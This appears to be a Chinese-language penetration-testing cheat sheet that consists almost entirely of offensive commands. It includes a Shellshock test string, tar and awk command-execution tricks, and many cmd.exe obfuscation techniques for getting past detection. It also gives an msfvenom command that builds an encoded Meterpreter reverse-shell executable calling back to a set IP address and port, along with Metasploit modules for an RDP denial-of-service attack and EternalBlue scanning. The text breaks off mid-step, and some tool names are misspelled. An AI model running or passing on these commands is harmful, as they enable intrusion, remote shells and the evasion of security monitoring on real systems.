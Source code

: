 ```
tar c a.tar -I ./runme.sh a

CVE-2014-6271
env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id 

awk执行系统命令三种方法：
awk 'BEGIN{system("echo abc")}' 
awk 'BEGIN{print "echo","abc"| "/bin/bash"}' 
awk '{"date"| getline d; print d; close("d")}'
```

### cmd命令bypass
```
逗号------------net user
,;,%coMSPec:~ -0, +27%,; ,;, ;/b, ;;; ,/c, ,,, ;start; , ; ;/b ; , /min ,;net user

括号-----------netstat /ano | findstr LISTENING
,;,%coMSPec:~ -0, +27%,; ,;, ;/b, ;;; ,/c, ,,, ;start; , ; ;/b ; , /min ,;netstat -ano |; ,;( (,;,((findstr LISTENING)),;,) )

转义字符------------netstat /ano | findstr LISTENING
,;,%coMSPec:~ -0, +27%,; ,;, ;^^^^/^^^^b^^^^, ;;; ,^^^^/^c, ,,, ;^^st^^art^^; , ; ;/^^^^b ; , ^^^^/^^^^min ,;net^^^^stat ^^^^ ^^^^-a^^^^no ^^^^ ^|; ,;( ^ (,;^,(^(fi^^^^ndstr LIST^^^^ENING)^),;^,) ^ )

设置环境变量------
#cmd /c "set com3= &&set com2=user&&set com1=net &&call %com1%%com2%%com3%"
#cmd /c "set com3= /ano&&set com2=stat&&set com1=net&&call %com1%%com2%%com3%"
#cmd /c "set com3= &&set com2=user&&set com1=net &&call set final=%com1%%com2%%com3%&&call %final%"

随机大小写-------
CMd /C "sEt coM3= /ano&& SEt cOm2=stat&& seT CoM1=net&& caLl SeT fiNAl=%COm1%%cOm2%%coM3%&& cAlL %FinAl%"

逗号和分号---------
;,,CMd,; ,/C ", ;, ;sEt coM3= &&,,,SEt cOm2=user&&;;;seT CoM1=net &&, ;caLl,;,SeT fiNAl=%COm1%%cOm2%%coM3%&&; , ,cAlL, ;, ;%FinAl%"

将配对双引号添加到输入命令以混淆其最终命令行参数
;,,C^Md^,; ,^/^C^ ^ ", ( ((;,( ;(s^Et ^ ^ co^M3=^^ /^^an^o)) )))&&,,(,S^Et^ ^ ^cO^m2=^s^^ta^^t)&&(;(;;s^eT^ ^ C^oM1^=^n^^e””t) ) &&, (( ;c^aLl,^;,S^e^T ^ ^ fi^NAl^=^%COm1^%%c^Om2%^%c^oM3^%))&&; (,,(c^AlL^, ;,^ ;%Fi^nAl^%))"

使用cmd.exe的/ V：ON参数启用延迟环境变量扩展
;,,C^Md^,; /V:ON,^/^C^ ^ ", ( ((;,( ;(s^Et ^ ^ co^M3=^^ /^^an^o)) )))&&,,(,S^Et^ ^ ^cO^m2=^s^^ta^^t)&&(;(;;s^eT^ ^ C^oM1^=^n^^””e””t) ) &&set quotes=””&&, (( ;c^aLl,^;,S^e^T ^ ^ fi^NAl^=^%COm1^%%c^Om2%^%c^oM3^%))&&; (, ,(c^AlL^, ;,^ ;%Fi^nAl^%) )"

```

### msf命令
```
生成exe文件
msfveom -p windows/metepreter/reverse_tcp -a x86 --platform windows LHOST=192.168.43.63 LPORT=4444 -e x86/shikata_ga_nai -i 20 PrependMigrate=true -f exe >ma.exe

攻击3389致使蓝屏：
扫描
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids

永恒之蓝漏洞拿cmd：
扫描
use auxiliary/scanner/smb/smb_ms17_010 
攻击
```